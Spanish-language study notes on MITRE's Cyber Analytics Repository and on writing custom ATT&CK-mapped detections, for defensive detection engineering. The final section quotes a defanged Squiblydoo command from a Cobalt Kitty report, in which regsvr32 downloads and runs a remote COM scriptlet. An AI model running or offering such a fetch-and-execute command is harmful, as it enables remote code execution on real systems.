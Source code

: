 ### Repositorio de análisis cibernético (CAR) de MITRE

[CAR](https://car.mitre.org/) es una base de conocimientos de análisis desarrollada por MITRE y se basa en el modelo de adversarios MITRE ATT&CK. Los análisis almacenados en CAR contienen la siguiente información para cada análisis:

- Una hipótesis que explica la idea detrás de una analítica
- La información o el dominio principal en el que está diseñado el análisis para operar (puede ser host, red, proceso, externo, etc.)
- Referencias a las Técnicas y Tácticas ATT&CK que detecta el analítico
- El Glosario
- Una descripción de pseudocódigo de cómo se puede implementar el estudio analítico
- Una prueba unitaria que se puede ejecutar para desencadenar el análisis
![[Pasted image 20240707160419.png]]

Al revisar los datos presentados en MITRE CAR, puede comenzar no solo a analizar los comportamientos que ocurren en su empresa, sino también comenzar a expandir sus datos de inteligencia de amenazas mediante la asignación de estos comportamientos a MITRE ATT&CK. 

En nuestro curso [Fundamentos de la simulación de brechas y ataques](https://www.academy.attackiq.com/courses/foundations-of-breach-attack-simulation), analizamos la creación de planes de prueba basados en sus defensas. 

CAR puede ayudar a crear planes de prueba proporcionando pruebas unitarias que activan alertas o análisis.  

A partir de la versión 13 de ATT&CK CAR, se ha agregado el pseudocódigo a muchos componentes de datos de ATT&CK.  

Por ejemplo, en la detección de la subtécnica T1053.005, puede ver que se ha presentado pseudocódigo para su detección a través del componente de datos de ejecución de comandos (DS0017).

### Amplíe y personalice su análisis

Si su organización ya ha dado los primeros pasos en la recopilación de datos y el uso de los análisis existentes, ahora es un buen momento para ampliar la cobertura creando los suyos propios.

![[Pasted image 20240707160846.png]]
Completar este ejercicio para su empresa también tiene la ventaja añadida de familiarizarle con el proceso de pensamiento que hay detrás de la creación de detecciones y análisis.

- Comience por mirar la descripción de la técnica de ATT&CK y los informes de inteligencia de amenazas vinculados a la técnica Aquí hay un ejemplo proporcionado por MITRE en su documento Introducción a ATT&CK: Supongamos que no hubo buenas detecciones para Regsvr32. La página de ATT&CK enumera varias variantes diferentes de cómo se usa Regsvr32. En lugar de escribir un análisis para cubrirlos todos, concéntrese en un solo aspecto para evitar que le den vueltas. Por ejemplo, es posible que desee detectar la variante "Squiblydoo" que fue descubierta por Casey Smith en Red Canary. Los informes vinculados a partir de los ejemplos muestran varias instancias de líneas de comandos en las que se utilizó Regsvr32, como este ejemplo del análisis Cybereason de Cobalt Kitty: Los atacantes descargaron scriptlets COM usando regsvr32.exe: regsvr32 /s/n/u/i:hxxp://support.chatconnecting(.) com:80/pic.png scrobj.dll EVIDENCIA DE SQUIBLYDOO UTILIZADO POR COBALT KITTY
- Diseñe una prueba para sus análisis utilizando las técnicas que ha descubierto. Las pruebas se pueden realizar con una solución BAS comercial o de código abierto. Continuando con el ejemplo anterior, miraría las pruebas disponibles para Regsvr32, incluido Squiblydoo.
- Después de ejecutar la prueba, revise los datos de registro generados durante el ataque. Busque cosas que hagan que el evento malicioso parezca distintivo.
